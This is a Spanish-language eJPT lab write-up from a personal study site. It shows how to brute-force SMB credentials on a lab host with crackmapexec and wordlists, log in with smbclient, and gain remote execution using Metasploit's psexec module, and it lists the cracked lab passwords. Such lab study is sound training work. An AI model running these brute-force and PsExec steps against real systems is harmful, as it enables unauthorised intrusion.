

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/windows-post-exploitation/02-exploiting-smb-with-psexec/index.html · generator: mkdocs

# Exploiting SMB With PsExec

**Objective:** Exploit the SMB service with PsExec and retrieve the flag

![](../../../assets/img/Pasted_image_20260914144700.png)

Probaremos a bruteforcear credenciales en smb
```bash
crackmapexec smb demo.ine.local -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

![](../../../assets/img/Pasted_image_20260914150012.png)

sysadmin:samantha

```bash
smbclient //demo.ine.local/C/ -U sysadmin
```

![](../../../assets/img/Pasted_image_20260914150600.png)

Vemos una flag

Podemos ganar acceso a la máquina con PsExec

Usaremos
```bash
windows/smb/psexec
```

Con las credenciales sysadmin:samantha nos da error de acceso

Vamos a inspeccionar a ver si hay más credenciales válidas
```bash
crackmapexec smb demo.ine.local -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt --continue-on-success | grep -E '\[\+\]'
```

--continue-on-success: sigue buscando a partir del primer match
grep: para filtrar por los matches

![](../../../assets/img/Pasted_image_20260914151834.png)

administrator:qwertyuiop

Si aparece el **p3wned!** significa que CME ha comprobado que esas credenciales permiten administrar/ejecutar código remotamente mediante alguno de los mecanismos SMB disponibles, normalmente mediante servicios administrativos como `psexec`

Ejecutamos con estas credenciales el exploit

![](../../../assets/img/Pasted_image_20260914152141.png)

Obtenemos acceso

![](../../../assets/img/Pasted_image_20260914152221.png)
